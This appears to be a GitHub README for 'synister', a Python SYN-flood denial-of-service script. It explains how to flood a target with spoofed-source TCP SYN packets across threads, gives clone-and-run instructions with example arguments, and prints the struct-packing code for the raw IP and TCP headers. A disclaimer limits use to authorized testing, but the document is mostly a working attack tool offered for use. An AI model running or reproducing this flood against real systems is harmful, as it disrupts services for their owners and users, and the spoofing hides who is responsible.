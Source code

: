 
# synister

A denial of service attack script written in Python.

Flood the target IP with TCP-SYN packets (hence the name), filling up their connection table, overwhelming the device and limiting its ability to make new connections, degrading performance. The script first creates raw sockets and builds custom IP and TCP headers for the packets with a spoofed source IP address and port, and then floods the target with the packets. This script also supports multi threaded flooding to maximize intensity.

---

# Features

- Custom IP and TCP headers
- Spoofed source address
- Multi threaded attack
- Raw SYN packets without completing the TCP handshake

**Requirements**: Python3 and root privileges.

---

# How to use

Legal disclaimer: **Do not use this without permission from the target**. This tool is intended for educational and authorized testing purposes only. Unauthorized use against systems you do not own is illegal and may result in legal consequences. Always obtain explicit permission before conducting network security testing.

1.  Clone the repo `git clone https://github.com/xshthkr/synister.git`
2. `cd synister/src`
3. `sudo python3 main.py` with the appropiate parameters.

A `KeyboardInterrupt` [CTRL + C] stops the attack.

Parameters:

| Argument     | Description                                           |
|--------------|-------------------------------------------------------|
| `--src-ip`   | source IP address (can be spoofed)                    |
| `--src-port` | source port (can be spoofed)                          |
| `--dst-ip`   | target IP address                                     |
| `--dst-ports`| list of destination ports (separated with spaces)     |

Example usage:

```bash
sudo python3 syn_flood.py --src-ip 192.168.20.100 --src-port 5555 --dst-ip 192.168.20.200 --dst-ports 80 443 53
```

---

# How it works

We first manually create a socket (or sockets if multi threading) so the kernel doesnt initialize the headers for us. We will be creating our own custom headers.

IP header:

```python
ip_header = struct.pack (
        "!BBHHHBBH4s4s",        # format string to specify header fields
        0x45,                   # version (4) + header length (5)
        0,                      # type of service (0 = default, no priority)   
        40 + payload_size,      # total length, header + payload 
        60069,                  # unique packet id 
        0,                      # flag (0) + fragment offset (0) 
        255,                    # ttl, 255 hops 
        socket.IPPROTO_TCP,     # tcp protocol 
        0,                      # checksum (set to 0, recomputed later) 
        socket.inet_aton(spoofed_src_ip), 
        socket.inet_aton(dst_ip)
)
```

We calculate the checksum and then update the checksum field of the IP header.

TCP header:

```python
tcp_header = struct.pack (
        "!HHLLBBHHH",       # format string to specify TCP header fields 
        spoofed_src_port, 
        dst_port,
        0,                  # SYN no. (init 0 or random)
        0,                  # ACK no. (0 for initial SYN)
        0x50,               # data offset 
        0x02,               # tcp flags (0x02 for SYN)
        8192,               # window (buffer) size
        0,                  # checksum (set to 0, recomputed later)
        0                   # urgent pointer
)
```

A pseudoheader is created and injected into the TCP header for calculating the checksum.

Then we build the packet `ip_header + tcp_header + payload` and its ready to be used.
